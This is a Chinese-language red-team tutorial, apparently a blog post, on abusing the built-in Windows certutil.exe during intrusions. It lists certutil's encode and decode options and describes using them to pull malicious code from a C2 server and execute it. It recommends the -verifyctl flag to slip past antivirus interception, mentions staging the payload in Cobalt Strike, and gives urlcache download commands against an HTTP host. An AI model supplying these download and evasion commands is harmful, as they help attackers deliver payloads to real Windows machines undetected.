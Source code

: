 简单来说就是：

该程序是 Windows 下的一个证书服务的安装程序，可以下载、编码和解码证书。在实际的渗透环境中，我们也可以利用它来解决一些无法上传脚本的情况。

我们从微软文档中重点看一些对渗透 / 红队行动中帮助较大的一些东西

-dump  
转储配置信息或文件。

```
certutil [options] [-dump]certutil [options] [-dump] file
```

-decodehex  
对十六进制编码的文件进行解码。

```
certutil [options] -decodehex infile outfile [type]
```

对 Base64 编码的文件进行解码。

```
certutil [options] -decode infile outfile
```

将文件编码为 Base64。

```
certutil [options] -encode infile outfile
```

ok 我们可以利用 certutil.exe 从我们的远端 c2 中下载我们的恶意代码并执行它  
也可以把我们的恶意代码通过 base64 或 16 进制进行传输并执行

注意：虽然说 certutril 是 Windows 本身自带的程序，但是现在用上述的方法来下载东西杀软都会拦截。但是加一个 - verifyctl 参数就可以绕过这个问题，下载下来的是一个二进制文件，需要修改后缀名为原来的后缀名即可运行

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglico8hXB6sLCXjEmb14aeINXibMibd9FqacVCEKxXL0X46RiaQ4D871qIIQg/640?wx_fmt=png)

我们在把我们要传输的脚本放在 cobalt strike 中（实战的时建议 payload 和回连 c2 分离）。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicYC5EJCbViaSCE8uoMSDdEstlPsaHkVMmDiapPWAyknaWXSNu5XjOtVVw/640?wx_fmt=png)

保存在当前路径，文件名称和下载文件名称相同

```
certutil  -urlcache  -split  -f   http://192.168.50.146:80/download/file.txt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicZIXM39LHmZqicEGFfvGicJUBFax9cmz9MCfibia2fPjK0kme9bmm7icWCkw/640?wx_fmt=png)

保存在当前路径，指定保存文件名称

```
certutil  -urlcache  -split  -f   http://192.168.50.146:80/download/file.txt  test.py
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicsOesX50XSC8ibZAQrNnB9ricxAG1oLiaVyYG9wDRufjdGqxIVWN2q91Ag/640?wx_fmt=png)

保存在缓存目录，名称随机（权限不够的情况下可以使用）
